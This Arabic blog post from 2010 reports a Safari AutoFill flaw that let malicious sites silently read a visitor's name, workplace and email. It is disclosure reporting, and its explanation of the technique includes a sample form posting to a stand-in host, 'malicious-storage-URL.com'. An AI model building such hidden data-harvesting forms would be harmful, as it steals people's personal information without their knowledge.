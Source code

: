 ```yaml
---
author: Xacker
date: 2010-07-25 12:23:35+00:00
draft: false
title: 'الكشف عن ثغرة في متصفح Safari تعرض بيانات المستخدم للسرقة  '
type: post
url: /2010/07/apple-safari-vulnerability/
categories:
- Apple
- Security
- متصفحات
tags:
- Apple
- Safari
- vulnerability
---
```


**[الكشف عن ثغرة في متصفح Safari تعرض بيانات المستخدم للسرقة](it-scoop.com/2010/07/apple-safari-vulnerability)**




تم الإعلان عن وجود خلل أمني في التصميم في متصفح Safari للإصدارين 4.0 و 5.0 يسمح للمهاجم بالحصول على بيانات شخصية خاصة بالزائر مثل (الاسم، العنوان،البريد الالكتروني، ...)




[![](https://www.it-scoop.com/wp-content/uploads/2010/07/safari_hacked.jpg)
](it-scoop.com/2010/07/apple-safari-vulnerability)


المشكلة الأمنية تظهر في حال قيام مستخدم ما بزيارة موقع خبيث، حتى لو لم يزره من قبل، ولم يدخل أي بيانات شخصية أيضاً، فيكون بمقدور الموقع كشف اسمه الكامل، مكان العمل، المدينة، الولاية (في حال كونه في الولايات المتحدة) بريده الالكتروني الشخصي!

يأتي متصفح Safari في الإصدارين 4.0 و 5.0 والذي يملك حوالي 4% من حصة السوق (أي تقريباً 83 مليون مستخدم)، بميزة على المسار (Preferences > AutoFill > AutoFill web forms) مفعّلة بشكل افتراضي.


[![](http://1.bp.blogspot.com/_JdybrokZBAk/TEUpf7TexxI/AAAAAAAABwU/oP9jGxcIz5A/s400/prefs.png  )
](https://www.it-scoop.com/wp-يوغرطة بن علي (Youghourta Benali)/it-scoop.com/2010/07/apple-safari-vulnerability)


هذه الميزة "AutoFill" تقوم بملء حقول الإدخال النصية في صفحات HTML والتي تحمل خصائص معينة مثل name, company, city, state, country, email, الخ.

<!-- more -->

مثال:

    
    <form>
    <input type="text" name="company"></input>
    <input type="text" name="email"></input></form>


يتم ملء هذه الحقول باستخدام بيانات من سجل المستخدمين الخاص في دفتر العناوين الخاص بنظام التشغيل المستخدم ومن المهم التذكير بأن هذه الخاصة تعمل حتى لو لم يقم المستخدم بإدخال مثل هذه البيانات من قبل لأنها مختلفة عن ميزة الإكمال التلقائي والتي يقوم المتصفح بتذكر بعض ما قمت بإدخاله مؤخراً في بعض حقول الإدخال النصية في المواقع التي تستخدمها.

كل ما يحتاج إلى القيام به أي موقع خبيث لاستخراج هذه المعلومات بمعاونة متصفح Safari هو أن يقوم بإنشاء نموذج (Form) إدخال كالمثال الذي ذكرناه، حتى لو بشكل مخفي، ومن ثم "محاكاة" نقرات المفاتيح ضمنها لإيهام المتصفح بأن المستخدم هو من يقوم بالنقر على لوحة المفاتيح. عندما يتم جلب البيانات والتي يتم ملؤها بشكل آلي، يصبح بإمكان المهاجم الوصول إليها من خلال إرسالها دون علم المستخدم إلى العنوان الذي يحدده في النموذج

    
    <form action="http://www.malicious-storage-URL.com"></form>


قام Robert Hansen المعروف بـ "RSnake" أحد الخبراء المعروفين في عالم الأمن (والذي بالتأكيد قرأتم شيئاً من كتاباته في موقع [http://ha.ckers.org](http://ha.ckers.org/)) باستضافة دليل [proof-of-concept](http://ha.ckers.org/weird/safari_autofill.html) على وجود المشكلة – لو كنت تود التجربة والإطلاع وتقلق بشأن بياناتك تستطيع تغييرها قبل زيارة الموقع من خلال Address Book كما تظهر الصورة

[![](https://www.it-scoop.com/wp-content/uploads/2010/07/address-book.png)
](it-scoop.com/2010/07/apple-safari-vulnerability)

وفقاً لما تذكره مدونة Jeremiah Grossman أحد الأسماء المعروفة أيضاً في عالم أمن المعلومات فإنه من حسن الحظ أن أرقام الهاتف "لسبب ما" لا يتم إظهارها بهذه الطريقة.

قمت بتجربة الدليل المنشور على موقع RSnake وفيما يلي صورة للنتائج

[![](https://www.it-scoop.com/wp-content/uploads/2010/07/autofill-poc.png)
](it-scoop.com/2010/07/apple-safari-vulnerability)

تجدر الإشارة إلى أن Jeremiah Grossman قد قام بإبلاغ Apple حول المشكل لكن لم يتلق سوى رد آلي على رسالته، و بعد عدم الحصول على أي رد على مراسلة ثانية قرر الكشف عن الثغرة ليسمع صوته بشكل أفضل :)

للإطلاع على المزيد من المعلومات حول الخبر يمكن مراجعة [التدوينة](http://jeremiahgrossman.blogspot.com/2010/07/i-know-who-your-name-where-you-work-and.html) الأصلية.
